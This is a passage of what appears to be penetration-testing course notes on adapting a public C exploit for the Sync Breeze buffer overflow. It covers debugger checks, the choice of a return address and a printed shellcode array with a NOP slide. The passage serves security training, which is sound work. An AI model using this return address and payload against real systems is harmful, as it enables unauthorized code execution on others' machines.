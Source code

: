 To verify this, we'll first need to start the Sync Breeze Service on the Windows 10 client
+ Next, we can launch _Immunity Debugger_ as administrator, click on _File_ > _Attach_, and select the _syncbrs_ process
+ Once attached, we'll click on the _View_ menu, then _Executable modules_
+ From there, we can verify that **msvbvm60.dll** is not present by checking the _Name_ and _Path_ values

Given that the Python version (https://www.exploit-db.com/exploits/42928) of the exploit is marked as _EDB Verified_ and thus, been already proven to be working, we can replace the target return address with the one contained in that version:
``` c
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```

If we do not have a return address from a previously-developed exploit, we have a few options to consider
+ The first, and most recommended option, is to recreate the target environment locally and use a debugger to determine this address
+ If this is not an option, we _could_ use information from other publicly-available exploits to find a reliable return address that will match our target environment
+ For example, if we needed a return address for a JMP ESP instruction on Windows Server 2019, we could search for it in public exploits leveraging different vulnerabilities targeting that operating system
+ This method is less reliable and can vary widely depending on the protections installed on the operating system

During a "vanilla" buffer overflow, we should not rely on hard-coded JMP ESP addresses coming from system DLLs, since these are all randomized at boot time due to ASLR
+ Instead, we should try to find these instructions in non-ASLR modules inside the vulnerable application whenever possible

We could also obtain a return address directly from the target machine
+ If we have access to our target as an unprivileged user and want to run an exploit that will elevate our privileges, we can copy the DLLs that we are interested in onto our attack machine
+ We can then leverage various tools, such as disassemblers like _objdump_, which is installed by default on Kali

Continuing our analysis of this C exploit, we'll notice that the _shellcode_ variable seems to hold the payload
+ Since it is stored as hex bytes, we cannot easily determine its purpose. The only hint given by the author refers to a _NOP slide_ that is part of the _shellcode_ variable:
``` c
unsigned char shellcode[] = 
  "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
  "\xdb\xda\xbd\x92\xbc\xaf\xa7\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
  "\x52\x31\x68\x17\x83\xc0\x04\x03\xfa\xaf\x4d\x52\x06\x27\x13"
  "\x9d\xf6\xb8\x74\x17\x13\x89\xb4\x43\x50\xba\x04\x07\x34\x37"
  "\xee\x45\xac\xcc\x82\x41\xc3\x65\x28\xb4\xea\x76\x01\x84\x6d"
  "\xf5\x58\xd9\x4d\xc4\x92\x2c\x8c\x01\xce\xdd\xdc\xda\x84\x70"
  "\xf0\x6f\xd0\x48\x7b\x23\xf4\xc8\x98\xf4\xf7\xf9\x0f\x8e\xa1"
  "\xd9\xae\x43\xda\x53\xa8\x80\xe7\x2a\x43\x72\x93\xac\x85\x4a"
  "\x5c\x02\xe8\x62\xaf\x5a\x2d\x44\x50\x29\x47\xb6\xed\x2a\x9c"
  "\xc4\x29\xbe\x06\x6e\xb9\x18\xe2\x8e\x6e\xfe\x61\x9c\xdb\x74"
  "\x2d\x81\xda\x59\x46\xbd\x57\x5c\x88\x37\x23\x7b\x0c\x13\xf7"
  "\xe2\x15\xf9\x56\x1a\x45\xa2\x07\xbe\x0e\x4f\x53\xb3\x4d\x18"
  "\x90\xfe\x6d\xd8\xbe\x89\x1e\xea\x61\x22\x88\x46\xe9\xec\x4f"
  "\xa8\xc0\x49\xdf\x57\xeb\xa9\xf6\x93\xbf\xf9\x60\x35\xc0\x91"
  "\x70\xba\x15\x35\x20\x14\xc6\xf6\x90\xd4\xb6\x9e\xfa\xda\xe9"
  "\xbf\x05\x31\x82\x2a\xfc\xd2\x01\xba\x8a\xef\x32\xb9\x72\xe1"
  "\x9e\x34\x94\x6b\x0f\x11\x0f\x04\xb6\x38\xdb\xb5\x37\x97\xa6"
  "\xf6\xbc\x14\x57\xb8\x34\x50\x4b\x2d\xb5\x2f\x31\xf8\xca\x85"
  "\x5d\x66\x58\x42\x9d\xe1\x41\xdd\xca\xa6\xb4\x14\x9e\x5a\xee"
  "\x8e\xbc\xa6\x76\xe8\x04\x7d\x4b\xf7\x85\xf0\xf7\xd3\x95\xcc"
  "\xf8\x5f\xc1\x80\xae\x09\xbf\x66\x19\xf8\x69\x31\xf6\x52\xfd"
  "\xc4\x34\x65\x7b\xc9\x10\x13\x63\x78\xcd\x62\x9c\xb5\x99\x62"
  "\xe5\xab\x39\x8c\x3c\x68\x59\x6f\x94\x85\xf2\x36\x7d\x24\x9f"
```